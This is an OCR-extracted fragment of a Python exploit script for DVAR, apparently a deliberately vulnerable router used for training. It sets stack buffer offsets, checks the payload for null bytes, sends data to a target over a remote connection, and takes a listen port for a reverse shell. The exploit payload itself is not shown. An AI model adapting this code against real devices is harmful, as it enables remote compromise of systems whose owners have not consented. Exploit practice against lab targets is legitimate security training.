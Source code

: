 ```python
stack_dummy_ea = stack_buf_data_start 
stack_csock_ea = stack_buf_data_start + 0x28


HOST = ('192.168.100.2', 80)

def parse_host(host):
    try:
        ip, port = host.split(":")
    except:
        raise argparse.ArgumentTypeError("host must be in format <ip>:<port>")
    return (ip, int(port))


def check_null_bytes(data):
    if b'\x00' in data:
        from termcolor import colored
        print("payload contains null bytes")
        print("[payload]\n")
        payload = 'ff' + data.hex()
        # chunk by byte (2 characters) and iterate
        for i in range(0, len(payload), 2):
            if i != 0 and (i % (4*2)) == 0:
                print()
            if payload[i:i+2] == '00':
                print(colored(payload[i:i+2], 'red'), end='')
            else:
                print(payload[i:i+2], end='')
        print()
        return True
    return False 


def _send_delayed_routine(p, data, delay=1.0):
    time.sleep(delay)
    print(f"Sending {len(data)} bytes")
    p.send(data)

def send_delayed(p, data, delay=1.0):
    thread = threading.Thread(target=_send_delayed_routine, args=(p,data, delay,))
    thread.start()
    return thread

    


if __name__ == "__main__":

    parser = argparse.ArgumentParser(description="Exploit for DVAR")

    subparsers = parser.add_subparsers(dest="command")
    
    miniweb_parser = subparsers.add_parser("miniweb", help="Run miniweb")

    parser.add_argument("-H", "--host", type=parse_host, default=HOST, required=True, help="Target host (format = <ip>:<port>)")

    parser.add_argument("-l", "--listen", type=int, default=1337, help="Port to listen on for reverse shell connection")
    
    args = parser.parse_args()

    p = remote(args.host[0], args.host[1])
```